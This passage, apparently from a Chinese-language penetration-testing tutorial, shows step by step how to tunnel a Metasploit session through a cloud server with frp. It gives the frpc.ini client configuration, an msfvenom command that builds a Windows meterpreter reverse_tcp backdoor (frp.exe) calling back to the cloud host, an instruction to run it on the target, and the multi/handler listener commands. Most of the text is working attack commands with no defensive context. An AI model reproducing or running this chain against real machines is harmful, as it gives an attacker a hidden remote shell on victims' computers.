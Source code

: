 ![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-14.png)

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-15.png)





### 2.控制端-下载-解压-修改-启动

控制端修改配置文件 frpc.ini：

```shell
[common]
server_addr = 你的云主机 ip
server_port = 7000 #frpc 工作端口，必须和上面 frps 保持一致
[msf]
type = tcp
local_ip = 127.0.0.1
local_port = 5555 #转发给本机的 5555
remote_port = 6000 #服务端用 6000 端口转发给本机
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-13.png)

启动客户端：

```shell
./frpc -c ./frpc.ini
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-16.png)

此时服务端收到端口连接

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-17.png)

### 3、生成后门

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=你的云主机ip lport=6000 -f exe -o frp.exe
```

后面放到靶机运行 frp.exe 即可

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-18.png)

### 4、配置监听

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 5555
exploit
```
